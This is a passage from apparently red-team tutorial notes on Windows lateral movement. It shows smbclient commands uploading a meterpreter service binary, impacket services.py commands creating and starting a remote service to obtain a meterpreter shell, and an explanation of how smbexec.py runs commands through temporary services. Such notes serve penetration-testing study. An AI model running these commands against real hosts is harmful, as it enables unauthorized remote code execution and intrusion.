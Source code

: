     ![List Shares](/assets/smbclient_list_shares.png)
    ```sh 
    # Upload the exe to windows machine
    smbclient \\\\172.16.50.42\\smbshare -U user1 -c "put meter64_service.exe test.exe"
    # Using impacket services.py create service remotely
    services.py WORKGROUP/user1@172.16.50.42 create -name testing -display testing1 -path "\\\\172.16.50.42\\smbshare\\test.exe"
    ```
    ![Create Service](/assets/impacket_create_service.png)
    ```sh
    # Using impacket services.py start the service and get the meterpreter shell
    services.py WORKGROUP/user1@172.16.50.42 start -name testing
    ```
    ![PoC](/assets/meter_session.png)

---

## Impacket smbexec.py
  + Part of the [Impacket Collection](https://github.com/SecureAuthCorp/impacket). It does not upload a service binary to target.
  + By default it creates a service with the name "BTOBTO". Of course the name can be changed in `smbexec.py` under the variable `SERVICE_NAME=...`, or can be given as a command line parameter to `smbexec.py`.
  + For every command given:
    - Transfers commands for the attacker's machine to the target machine via SMB as a bat file in `%TEMP%/execute.bat`
    - A new service named "BTOBO" is created which does the following and then exits.
    - It echoes the command to be executed in a `bat` script, and redirects to stdout and stderror to a Temp file, then runs the bat script then deletes it.
    - Makes a call to an existing binary that already lives on the endpoint to execute commands, cmd.exe
    - It is actually a pseudo shell (**Non-interactive Shell**)